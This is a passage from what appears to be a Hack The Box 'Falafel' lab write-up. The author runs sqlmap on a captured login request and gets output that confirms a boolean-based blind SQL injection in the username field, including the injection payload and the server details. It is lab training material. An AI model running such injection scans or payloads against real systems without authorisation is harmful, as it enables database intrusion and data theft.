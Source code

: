 ![htb-falafel06](/images/htb/falafel/htb-falafel06.png)

I then pass the login request into `sqlmap` and check for SQL injection

```bash
root@kali:~/htb/falafel# sqlmap -r login.req --level=5 --risk=3 -threads 10 --batch
...
sqlmap identified the following injection point(s) with a total of 148 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=x'+(SELECT 'lwsN' WHERE 9765=9765 AND 1007=1007)+'&password=y
---
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
```
